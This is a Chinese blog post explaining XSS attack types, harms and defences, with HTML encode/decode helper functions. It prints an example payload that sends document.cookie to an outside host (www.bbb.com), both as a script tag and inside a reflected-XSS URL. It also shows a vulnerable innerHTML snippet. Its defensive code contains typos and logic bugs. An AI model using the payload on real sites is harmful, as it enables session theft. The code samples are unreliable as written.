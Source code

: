 ```yaml
---
title: 网络安全：如何预防 XSS 攻击
date: 2023-01-08 14:45:48
permalink: /pages/7e3531/
categories:
  - 技术随笔
  - 技术随笔
tags:
  - 
---
```


## 0.前言

与前端有关的两个网络安全问题，分别是 `XSS` 与 `CSRF`。

正好最近在项目中看到了一个 `xss.js` 文件，该文件中主要包含 `htmlEncode` 及 `htmlDecode` 两个函数。其中的转义方案很巧妙，于是随手记录下来。



## 1. XSS 的定义

全称：`XSS（Cross Site Scripting）` 跨站脚本攻击。

攻击方式：在用户浏览器上，在渲染 `DOM` 树时，执行了不可预期的 `JS` 脚本，从而引发了安全问题。

> 以下部分见：[XSS攻击及防御（简单易懂）](https://blog.csdn.net/qq_26599807/article/details/127790481)

按照攻击路径可分为如下类型：

1. 反射型 `XSS`

   数据走向为：`浏览器`—>`后端回显`—>`浏览器`，故称为`反射型`。

   攻击特性：一次性。

2. 存储型 `XSS`

   数据走向为：`浏览器`—>`后端`—>`数据库`—>`后端`—>`浏览器`。

   攻击范围：群体攻击，危害性极大。

   典型场景：任何可能插入数据库的地方，如用户注册，评论区、留言板、上传文件的文件名。

3. `DOM` 型 `XSS`

   数据走向为：`URL` —> `浏览器`

   特点：不会经过后端，就是使用页面本地的 `js` 去执行一段代码。 

   典型场景：`JSON转换`、`翻译等工具区`。

   ```html
   <script>
       function test() {
         var str = document.getElementById("text").value;
         document.getElementById("t").innerHTML = "<a href='"+str+"' >testLink</a>";
       }
   </script>
   /* 翻译显示内容*/
   <div id="t" ></div>
   /* 输入待翻译的文本 */
   <input type="text" id="text" value="" />
   /* 执行翻译 */
   <button id="s" value="write" onclick="test()" />
   ```

   

## 2.攻击危害

1. 盗取 `cookie` 信息

   如注入：

   ```html
   <script>window.open(“www.bbb.com?param=”+document.cookie)</script>
   ```

2. 影响用户体验

   如：恶意跳转，以及无法关闭的弹窗

   ```javascript
   while(true){alert("无法关闭此弹窗！")}
   ```

3. 按键记录和钓鱼

4. 未授权操作

   - 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如不适当的投票。
   - 以被攻击者的身份执行一些管理操作。



## 3.如何防御 `XSS` 攻击

1. 对用户输入的内容，必须进行 `en-code` 操作，避免出现 `HTML Tag`

   `HTML` 字符进行编码：利用`html` 特性：利用 `innerText` 输入，再 `innerHTML` 输出。

   ```javascript
   /* 对 html 元素进行编码 */
   function htmlEncode(test){
     /* 当 text 是对象，且不为 null 时 */  
     if(typeof text=== "object" && text){
       const _text = {};
       for(const key in text){
         _text[key] = htmlEncode(text[key]);
       }
     }
     /* 当 text 是字符串时 */
     /* 构造一个div(可换成任何一个html元素)，主要是利用 div.innerText 的属性*/
     const div = document.createElement("div");
     /* 先 div.innerText 设置*/
     div.innerText = text； // 如：<div>123</div>
     return div.innerHTML; // 会自动对 <,> 等字符进行转译，如：'&lt;div&gt;123&lt;/div&gt;'
   }
   ```

   `HTML` 字符进行解码：

   ```javascript
   function htmlDecode(text){
     if(!text) return text;
     if(typeof text === "object" && text){
       for(const key in text){
         text[key] = htmlDecode(text[key]);
       }
     }else if(typeof text === "string"){
       // (底层实现)方案一：将编码文本转译为 `HTML Tag`
       // text = text
       //       .replace(/&quot;/g,'""') // 双引号
       //       .replace(/&acute;/g,"''") // 左单引号
       //     	.replace(/&#27;/g, "''") // 右单引号
       //       .replace(/&#60;/g, "`") // 反引号
       //       .replace(/&lt;/g, "<") // 左尖括号
       //       .replace(/&gt;/g, ">") // 右尖括号
       //       .replace(/&middot;/g,".") // 点
       //       .replace(/&amp;/g, "&") // 
       //       .replace(/&iexcl;/g, "?") // 问号
       //       .replace(/&#x7bl;&#xd;&xa;/g，"{") // 左括号
       //       .replace(/&#xd;&#xa;&x7d;/g,"}") // 右括号
       //       .replace(/&#x3a;/g,":") // 冒号
       //       .replace(/&#x5b;/g, "[") // 左方括号
       //       .replace(/&#x5d;/g, "]") // 右方括号
       //       .replace(/\\\\\/g, "\\"); // 反斜杠
       //     text = decodeURIComponent(xss.escapeHtmlEntities(text));
       const div = document.createElement("div");
       text = text.replace(/</g,"&lt;").replace(/>/g,"&gt;");
       div.innerHTML = text; 
       text = div.innerText.repace(/&lt;/g, "<").replace(/&gt;/g,">");
       return text;
     }
   }

2. 如果盗取的 `cookie` 信息，可以做一层 `cookie` 防盗，避免直接在 `cookie` 中泄露用户隐私，例如`email`、密码等；通过使`cookie` 和系统 `IP` 绑定来降低 `cookie` 泄露后的危险。

3. 控制请求头：

   > 对用户向服务器提交的信息进行检查，设置预期提交格式。

   在请求时，编写一个 `header()`，用于控制 `json` 数据的头部，如`header("Content-type:application/json")）`

4. 尽量采用 `POST` 而非 `GET` 作为请求方法。

   主要为了避免反射型 `XSS` 攻击，有情况是网页的内容就是来源于 `URL` ，如若此时设计一个超链接地址：`http://www.xxx.com?content=<script>window.open(“www.bbb.com?param=”+document.cookie)</script>` 。当加载页面时，`content` 的内容会由后端触发，用户的 `cookie` 会被发送给 `bbb` 网站。

## 4.扩展：什么是 `HTML` 实体？

> 详细内容，请参见参考博文2。

在 `HTML` 中`<`，`>`，`&`等有特殊含义（`<`，`>`，用于链接签，`&` 用于转义），不能直接使用。

因此在`HTML` 中标识一些特殊字符时，可以使用**转义字符串** （`Escape Sequence`），或称为字符实体（`Character Entity`），有以下原因：

1. 在 `HTML` 中使用。
2. 有些字符在 `ASCII` 字符集中没有定义，需要使用转义字符串标识。



转义字符串有两种标识方式：

1. `&` + `#` + 实体（`Entity`） 编号 + `;` ，举例：`<` 会被转义为`&lt;`
2. `&` + `#` + 实体（`Entity`） 名称 + `;` ，举例：`<` 会被转义为 `&#60;`

> 实用网址：http://tool.c7sky.com/htmlescape/



## 5.扩展：`innerText` 与 `innerHTML` 的区别？

在前文中，先 `innerText` 再 `innerHTML` 进行 `HTML` 文本的编码操作，通过先 `innerHTML` 再 `innerText` 进行 `HTML` 文本的解码操作。接下来分析下这个行为：

1. 编码：

   - `div.innerText = "<div>123</div>"` 告诉浏览器，此部分内容为文本内容。
     浏览器器为了将 `<div>123</div>` 渲染在页面中，就必须对其中的特殊字符（`<` | `>` ） 进行转义。

   - 通过 `div.innerHTML` 就可以将转义后的文本取出，如：`&lt;div&gt;123&lt;/div&gt;`

     <img src="https://wjs-tik.oss-cn-shanghai.aliyuncs.com/202301081642138.png" alt="image-20230108164221833" style="zoom:40%;" />

     <img src="https://wjs-tik.oss-cn-shanghai.aliyuncs.com/202301081640692.png" alt="" style="zoom:50%;" />

2. 解码：

   - 当调用`div.innerHTML ` 时，

     - 当传入的是带`HTML` 标签的文本时 `<span>123<span>` ，则在页面只会渲染 `123` 。
     - 而但当传入的内容本身就是编码后的字符时 `&lt;div&gt;123&lt;/div&gt;` ，则会渲染 `<div>123</div>`

   - 此时调用 `div.innerText` 则可以获取此部分内容。

     <img src="https://wjs-tik.oss-cn-shanghai.aliyuncs.com/202301081639917.png" style="zoom:50%;" />





## 参考博文：

1. [XSS攻击及防御（简单易懂）](https://blog.csdn.net/qq_26599807/article/details/127790481)

2. [HTML字符实体（Character Entities），转义字符串（Escape Sequence）](https://www.cnblogs.com/lizihong/p/4322727.html)
